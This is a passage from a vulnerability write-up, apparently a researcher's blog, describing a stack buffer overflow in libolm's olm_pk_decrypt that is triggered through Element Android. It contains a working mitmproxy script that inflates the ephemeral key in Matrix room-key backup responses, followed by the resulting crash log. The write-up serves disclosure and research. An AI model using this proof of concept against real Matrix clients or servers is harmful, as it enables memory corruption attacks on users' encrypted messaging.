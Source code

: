 The purpose of `olm_pk_decrypt` is to decrypt secrets previously stored by
a Matrix device on the homeserver. The point of encryption is to prevent the
server from learning these secrets since they're supposed to be known only by
your own devices. One use case for this mechanism is to allow one of your
devices to store encrypted end-to-end encryption keys on the homeserver. Your
other devices can then retrieve those keys from the homeserver, making it
possible to view all of your private conversations on each of your devices.

I decided to go for an end-to-end test to confirm the bug is triggerable by
connecting with the latest Element Android from my test phone to my homeserver,
with [mitmproxy](https://mitmproxy.org/) sitting in between. This allowed me to
write a small mitmproxy script which intercepts HTTP calls fetching the E2E
encryption keys from the homeserver and modifies the response so that the key
is longer than expected.

```python
import json

from mitmproxy import ctx, http


def response(flow: http.HTTPFlow) -> None:
    if ("/_matrix/client/unstable/room_keys/keys" in flow.request.pretty_url
            and flow.request.method == "GET"):

        response_body = flow.response.content.decode("utf-8")
        response_json = json.loads(response_body)

        rooms = response_json["rooms"]
        room_id = list(rooms.keys())[0]

        sessions = rooms[room_id]["sessions"]
        session = list(sessions.keys())[0]
        session_data = sessions[session]["session_data"]

        ephemeral = session_data["ephemeral"]
        ctx.log.info(f"Replacing ephemeral key '{ephemeral}' with '{ephemeral * 10}'")
        session_data["ephemeral"] = ephemeral * 10

        modified_body = json.dumps(response_json).encode("utf-8")
        flow.response.content = modified_body
```

This longer value is then eventually passed by Element Android to libolm's
`olm_pk_decrypt`, which triggers the buffer overflow. With all of that in
place, I deleted the local encryption key backup on my device and asked for it
to be restored from the server:

```txt
F libc    : stack corruption detected (-fstack-protector)
F libc    : Fatal signal 6 (SIGABRT), code -6 (SI_TKILL) in tid 24517 (DefaultDispatch), pid 24459 (im.vector.app)
F DEBUG   : *** *** *** *** *** *** *** *** *** *** *** *** *** *** *** ***
F DEBUG   : Build fingerprint: 'xiaomi/tissot/tissot_sprout:9/PKQ1.180917.001/V10.0.24.0.PDHMIXM:user/release-keys'
F DEBUG   : Revision: '0'
F DEBUG   : ABI: 'arm64'
F DEBUG   : pid: 24459, tid: 24517, name: DefaultDispatch  >>> im.vector.app <<<
F DEBUG   : signal 6 (SIGABRT), code -6 (SI_TKILL), fault addr --------
F DEBUG   : Abort message: 'stack corruption detected (-fstack-protector)'
F DEBUG   :     x0  0000000000000000  x1  0000000000005fc5  x2  0000000000000006  x3  0000000000000008
F DEBUG   :     x4  0000000000000000  x5  0000000000000000  x6  0000000000000000  x7  0000000000000030
F DEBUG   :     x8  0000000000000083  x9  7d545b4513138652  x10 0000000000000000  x11 fffffffc7ffffbdf
```

[^1]: In the context of fuzzing, collisions are situations where
[^2]: By *remainder byte*, I mean bytes which are not part of
[^3]: Classic fuzzers famously have a hard time